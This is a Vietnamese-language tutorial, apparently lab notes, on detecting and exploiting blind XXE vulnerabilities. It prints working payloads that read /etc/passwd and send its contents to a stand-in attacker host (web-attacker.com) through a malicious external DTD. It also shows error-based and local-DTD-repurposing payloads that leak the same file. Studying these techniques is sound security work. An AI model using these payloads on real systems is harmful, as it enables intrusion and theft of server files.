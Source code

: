 # Finding and exploiting blind XXE vulnerabilities.

## What is blind XXE?

- Các lỗ hổng Blind XXE phát sinh trong đó ứng dụng dễ bị tấn công bởi XXE nhưng không trả về kết quả trong các phản hồi. Điều này có nghĩa là không thể truy xuất trực tiếp các tệp phía máy chủ và do đó, Blind XXE thường khó khai thác hơn các lỗ hổng XXE thông thường.

- Có hai cách có thể tìm và khai thác các lỗ hổng XXE mù:

	+ Kích hoạt các tương tác mạng ngoài băng tần, đôi khi lọc dữ liệu nhạy cảm trong dữ liệu tương tác.
	+ Kích hoạt lỗi phân tích cú pháp XML theo cách mà các thông báo lỗi chứa dữ liệu nhạy cảm.

## Detecting blind XXE using out-of-band (OAST) techniques.

- Có thể phát hiện Blind XXE bằng cách sử dụng kỹ thuật tương tự như đối với các cuộc tấn công XXE SSRF nhưng kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát. 

> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>

- Cuộc tấn công XXE này khiến máy chủ thực hiện một yêu cầu HTTP back-end tới URL được chỉ định. Kẻ tấn công có thể theo dõi kết quả tra cứu DNS và yêu cầu HTTP, và do đó phát hiện ra rằng cuộc tấn công XXE đã thành công.

- Lab:
	+ Lab: Blind XXE with out-of-band interaction.[exploit](exploit/lab3.py)

- Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do một số xác thực đầu vào của ứng dụng hoặc một số quá trình phân tích cú pháp XML đang được sử dụng. 

- Trong trường hợp này, bạn có thể sử dụng các thực thể tham số XML để thay thế. Các thực thể tham số XML là một loại thực thể XML đặc biệt chỉ có thể được tham chiếu ở những nơi khác trong DTD. 

> <!ENTITY % myparameterentity "my parameter entity value" >
> %myparameterentity;

- Điều này có nghĩa là bạn có thể kiểm tra XXE mù bằng cách sử dụng tính năng phát hiện ngoài băng thông qua các thực thể tham số XML như sau:

> <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

- Payload XXE này khai báo một thực thể tham số XML được gọi xxe và sau đó sử dụng thực thể trong DTD. Điều này sẽ thực hiện tra cứu DNS và yêu cầu HTTP đến miền của kẻ tấn công, xác minh rằng cuộc tấn công đã thành công.

- Lab:
	+ Lab: Blind XXE with out-of-band interaction via XML parameter entities.[exploit](exploit/lab4.)

## Exploiting blind XXE to exfiltrate data out-of-band.

- Việc phát hiện lỗ hổng Blind XXE thông qua các kỹ thuật out-of-band không thực sự chứng minh được cách thức khai thác lỗ hổng. Những gì kẻ tấn công thực sự muốn đạt được là lấy sạch dữ liệu nhạy cảm. Điều này có thể đạt được thông qua lỗ hổng XXE mù, nhưng nó liên quan đến việc kẻ tấn công lưu trữ một DTD độc hại trên hệ thống mà chúng kiểm soát, sau đó gọi DTD bên ngoài từ bên trong tải trọng XXE trong băng tần.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
- Xác định một thực thể tham số XML được gọi *file*, chứa nội dung của */etc/passwd*.
- Định nghĩa một thực thể tham số XML được gọi eval, chứa một khai báo động của một thực thể tham số XML khác được gọi exfiltrate. *exfiltrate* sẽ thực hiện một yêu cầu HTTP đến máy chủ web của kẻ tấn công có chứa giá trị của file thực thể trong chuỗi truy vấn URL.
- Sử dụng *eval* cho việc khai báo động của *exfiltrate* được thực hiện.
- Sử dụng *exfiltrate* để thực hiện yêu cầu URL được chỉ định.

- Sau cùng là lưu trữ payload tại web attack và tấn công XXE.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

- Lab:
	+ Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD.[exploit](exploit/lab5.py)

## Exploiting blind XXE to retrieve data via error messages.

- Một cách tiếp cận thay thế để khai thác Blind XXE là kích hoạt lỗi phân tích cú pháp XML trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà bạn muốn truy xuất. Điều này sẽ có hiệu lực nếu ứng dụng trả về thông báo lỗi kết quả trong phản hồi của nó.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- Xác định một thực thể *file*, chứa nội dung của */etc/passwd*.
- Định nghĩa một thực thể *eval*, chứa một khai báo động của một thực thể tham số XML khác được gọi là *error*. Thực thể *error* sẽ được đánh giá bằng cách truy một tệp không tồn tại có tên chứa giá trị của *file*.
- Sử dụng *eval* cho việc khai báo động của *error* được thực hiện.
- Sử dụng *error* để cố gắng tải tệp không tồn tại, dẫn đến thông báo lỗi chứa tên của tệp không tồn tại, là nội dung của */etc/passwd*.

- Lab:
	+ Lab: Exploiting blind XXE to retrieve data via error messages.[exploit](exploit/lab6.py)

## Exploiting blind XXE by repurposing a local DTD.

-  Khi sử dụng một thực thể tham số XML trong định nghĩa của một thực thể tham số khác, theo đặc tả XML, điều này được phép trong các DTD bên ngoài nhưng không được phép trong các DTD nội bộ.

- Khi các kết nối ngoài băng tần bị chặn vẫn có thể kích hoạt các thông báo lỗi chứa dữ liệu nhạy cảm do sơ hở trong đặc tả ngôn ngữ XML. Nếu DTD của tài liệu sử dụng kết hợp các khai báo DTD bên trong và bên ngoài, thì DTD nội bộ có thể xác định lại các thực thể được khai báo trong DTD bên ngoài. Khi điều này xảy ra, việc hạn chế sử dụng một thực thể tham số XML trong định nghĩa của một thực thể tham số khác có thể xảy ra.

- Điều này có nghĩa là kẻ tấn công có thể sử dụng kỹ thuật XXE dựa trên lỗi từ bên trong DTD nội bộ, miễn là thực thể tham số XML mà chúng sử dụng đang xác định lại một thực thể được khai báo bên trong DTD bên ngoài. Tất nhiên, nếu các kết nối ngoài băng tần bị chặn, thì DTD bên ngoài không thể được tải từ một vị trí từ xa. Thay vào đó, nó cần phải là một tệp DTD bên ngoài cục bộ cho máy chủ ứng dụng. Về cơ bản, cuộc tấn công liên quan đến việc gọi một tệp DTD tồn tại trên hệ thống tệp cục bộ và định vị lại nó để xác định lại một thực thể hiện có theo cách gây ra lỗi phân tích cú pháp chứa dữ liệu nhạy cảm.

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

- Xác định một thực thể *local_dtd*, chứa nội dung của tệp DTD bên ngoài tồn tại trên hệ thống tệp máy chủ.
- Định nghĩa thực thể *custom_entity*, thực thể này đã được xác định trong tệp DTD bên ngoài.Thực thể được xác định lại là chứa khai thác XXE dựa trên lỗi đã được mô tả, để kích hoạt thông báo lỗi chứa nội dung của */etc/passwd*.
- Sử dụng *local_dtd* để DTD bên ngoài được diễn giải, bao gồm cả giá trị được xác định lại của *custom_entity*.

### Locating an existing DTD file to repurpose.

- Vì cuộc tấn công XXE này liên quan đến việc định vị lại một DTD hiện có trên hệ thống tệp máy chủ, yêu cầu quan trọng là xác định vị trí tệp phù hợp. Vì ứng dụng trả về bất kỳ thông báo lỗi nào do trình phân tích cú pháp XML xuất ra, bạn có thể dễ dàng liệt kê các tệp DTD cục bộ chỉ bằng cách cố gắng tải chúng từ bên trong DTD nội bộ.

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

- Lab:
	+ Lab: Exploiting XXE to retrieve data by repurposing a local DTD.[exploit](exploit/lab7.py)